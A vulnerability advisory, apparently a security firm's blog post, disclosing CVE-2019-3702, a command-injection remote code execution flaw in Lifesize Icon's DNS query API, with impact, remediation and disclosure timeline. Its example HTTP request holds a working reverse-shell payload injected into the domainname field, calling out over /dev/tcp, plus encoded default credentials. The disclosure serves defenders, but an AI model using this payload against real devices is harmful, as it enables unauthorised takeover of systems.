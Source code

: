 ```yaml
---
layout: post
title: "Remote Code Execution in Lifesize Icon"
date: 2019-01-03 09:00:00
image:
      url: /assets/pixabay/matrix-1799659_1920.jpg
author: 'Joshua Lehr'
author_image: "https://avatars1.githubusercontent.com/u/22133182?s=400&u=9c37c0c25738af0b47f4b2ab1c3adb0b26f80abf&v=4"
author_link: "https://github.com/noskill1337"
cve: "CVE-2019-3702"
cve_description: "A Remote Code Execution issue in the DNS Query Web UI in Lifesize Icon LS_RM3_3.7.0 (2421) allows remote authenticated attackers to execute arbitrary commands via a crafted DNS Query address field in a JSON API request."
cvss: "8.8"
---
```


## Overview

- Vulnerability: Remote Code Execution (RCE)
- Vendor: Lifesize
- Vendor Homepage: [https://www.lifesize.com/en](https://www.lifesize.com/en)
- Product: Lifesize Icon
- Version: LS_RM3_3.7.0 (2421)

## Background

LifeSize Icon is a video collaboration platform and consists of various components, e.q. software, video and phone systems.

From the vendor's [website](https://www.lifesize.com/en/video-conferencing-app):
"Lifesize conferencing is streamlined and built to enhance all the different ways your team communicates — from one-on-one audio and video calls to full-scale company meetings among multiple locations. Replace outdated, costly, and audio-only services with more meaningful face-to-face conversations. Features like easy-to-use interface, screen sharing, and calendar integration make Lifesize’s an award-winning HD video conferencing solution. And, unlike consumer-grade apps, Lifesize was built for business. We have over a decade of experience designing HD conference room cameras and touchscreen conference phones. We stand behind our service with a financially backed SLA with 24x7x365 customer support."

## Issue Description

While analyzing the implementation of LifeSize Icon Software, one Remote Code Execution vulnerability has been identified, which can be exploited in order to execute arbitrary commands within the DNS Query address field. This vulnerability can be exploited by authenticated attackers with access to the web interface.

The system provides a JSON API, which exposes various methods like the DNS Query function. This function contains a address field that can be exploited with a remote command execution.

The following **HTTP request** illustrates this approach:

~~~ http
POST /rest/request/8cb1a00d113443c6a9a220104bbdea33/Comm_dnsQuery HTTP/1.1
Host: 1.1.1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:63.0) Gecko/20100101
Firefox/63.0
Accept: */*
Accept-Language: de,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: https://1.1.1.1/
X-Client: icon-web-client
Authorization: LSBasic c3VwcG9ydDpzdXBwb3J0
Content-Type: application/json
X-Requested-With: XMLHttpRequest
Content-Length: 142
Connection: close

{"call":"Comm_dnsQuery","params":{"type":"A","domainname": "1.1.1.2; 0<&196;exec 196<>/dev/tcp/1.1.1.2/4446; sh <&196 >&196 2>&196"}}
~~~

## Impact

This vulnerability affects the confidentiality / integrity / availability of the system. This allows an attacker to read / manipulate the system. If an attacker is aware of the security issue, he or she may steal important data or compromise the system. With this vulnerability, a complete system compromise is possible.

## Remediation

In order to avoid this vulnerability, it's suggested to disable/update the software with this patch:
LS_RM3_3.7.0 (2421)

Software pataches avialable here: [https://cdn.lifesizecloud.com/](https://cdn.lifesizecloud.com/)

## CVE

- CVE: [{{ page.cve }}](https://cve.mitre.org/cgi-bin/cvename.cgi?name={{ page.cve }})
- CVSS Base Score: **{{ page.cvss }}**
- CVSS: 3.0/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H

## Credit

- {{ site.owner }}
- Patrick Muench

## Disclosure Timeline

- 2018-November-11: Discovered vulnerability
- 2019-Januar-03: Vendor Notification
- 2019-Januar-27: Vendor Response/Feedback
- 2019-May-12: Vendor Fix/Patch
- 2019-May-13: Public Disclosure

## Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information. In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

System administrators need tools like this to discover vulnerable hosts. This tool is offered for legal purposes only and to forward the security community's understanding of this vulnerability. As this PoC actively exploits the vulnerability, do not use against targets without prior permission.

The contents of this advisory are copyright (c) 2019 SVA System Vertrieb Alexander GmbH and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.

## Licence

{{ site.licenceDisplay }}